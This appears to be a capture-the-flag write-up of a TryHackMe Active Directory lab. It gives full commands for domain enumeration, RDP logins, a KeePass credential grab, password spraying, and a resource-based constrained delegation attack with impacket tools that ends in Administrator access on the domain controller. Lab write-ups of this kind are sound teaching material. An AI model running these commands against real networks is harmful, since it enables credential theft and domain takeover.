








# Forward

**Difficulty:** 🟡 Medium · **Room:** [TryHackMe ↗](https://tryhackme.com/room/forwardchallenge)

<center><b>[ INITIAL ACCESS GRANTED ]</b></center>

---

<center><b>USER</b> ctf.local\j.smith
<b>PASS</b> > JSmith@IT2024</center>

---

<center>You're already in. The breach has been assumed, now it's time to move forward. Navigate through a compromised Active Directory environment, move laterally through the domain, and escalate your way to full control. The question isn't how you got in... it's how far you can go.</center>

---

## Reconnaissance

I started by generating a hosts file entry for the target:

```bash
nxc smb TARGET_IP -u j.smith -p JSmith@IT2024 --generate-host-file host
```

I added the contents of `host` to `/etc/hosts`, then ran an nmap scan:



This looked like a standard domain controller — nothing unusual. For a better picture of the domain, I ran BloodHound:

```bash
bloodhound-python -u j.smith -p 'JSmith@IT2024' --zip -c All -d ctf.local -dc DC01.ctf.local -ns TARGET_IP --zip
```

It showed that `j.smith` was a member of `Remote Desktop Users`, which meant I could connect over RDP:



```bash
xfreerdp /u:j.smith /p:JSmith@IT2024 /v:TARGET_IP
```

Browsing the file system, I found a `Database.kdbx` file — an encrypted database used by KeePass Password Safe:



KeePass 2 was already installed on the machine, so I opened it and logged in as the Windows user. The database held usernames and passwords for several accounts. The `t.jones` entry revealed that user's password:



That let me log in over RDP as `t.jones`. This account didn't have anything interesting on it, so I enumerated the domain's users instead:

```bash
nxc smb DC01.ctf.local -u t.jones -p 'REDACTED' --users
```

Results:

```
Administrator
Guest
krbtgt
j.smith
t.jones
r.williams
svc.helpdesk
```

With a user list in hand, I tried spraying `t.jones`'s password across all of them:

```bash
nxc smb DC01.ctf.local -u users.txt -p 'REDACTED' --continue-on-success
```

It worked — the same password was reused on `r.williams`:



`r.williams` was also in the `Remote Desktop Users` group, so I logged in over RDP with that account too. BloodHound showed something more interesting this time: `r.williams` had `AddAllowedToAct` rights over `DC01`.



That permission allows a resource-based constrained delegation (RBCD) attack — by adding a computer object to `DC01`'s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, I could get it to let that computer impersonate any domain user. BloodHound gave step-by-step instructions for doing this from Linux:



First, I created a new computer account under my control:

```bash
addcomputer.py -computer-name 'ATTACKERSYSTEM$' -computer-pass 'StrongPassword!' -dc-host DC01 -domain-netbios ctf.local 'ctf.local/r.williams:REDACTED'
```

Then set up the delegation:

```bash
rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC01$' -action 'write' 'ctf.local/r.williams:REDACTED'
```

With that configured, I requested a service ticket impersonating `Administrator`:

```bash
getST.py -spn 'cifs/DC01.ctf.local' -impersonate 'Administrator' 'ctf.local/ATTACKERSYSTEM$:StrongPassword!'
```

Then exported it as my active ticket:

```bash
export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

And used it to authenticate as `Administrator`:

```bash
smbexec.py -k -no-pass ctf.local/Administrator@DC01.ctf.local
```

That gave me the flag:



---

## Kill Chain

This box started with credentials handed over up front, so the whole exercise was about how far lateral movement and password reuse could take me. A password manager database found on the first compromised host leaked a second user's password, and that user turned out to reuse the same password across the domain — which is what handed me `r.williams`. From there, the ending wasn't about weak passwords at all: `r.williams` had a domain permission that allowed a full RBCD attack, letting me forge a ticket and impersonate `Administrator` directly.

`j.smith → t.jones (via KeePass) → r.williams (via password reuse) → Administrator (via RBCD)`

- **Initial Access:** Provided credentials for `j.smith` → RDP access
- **Lateral Movement:** KeePass database on `j.smith`'s desktop → `t.jones` credentials → RDP access
- **Lateral Movement:** Password spraying `t.jones`'s password across the domain → reused on `r.williams` → RDP access
- **Privilege Escalation:** `AddAllowedToAct` permission on `DC01` → RBCD attack → forged service ticket → full domain admin

The technical parts of this chain (KeePass extraction, RBCD) needed some know-how, but the thing that made them possible in the first place was simpler: a password saved in a database that shouldn't have been reachable, and that same password reused on another account.

> Thanks for reading!================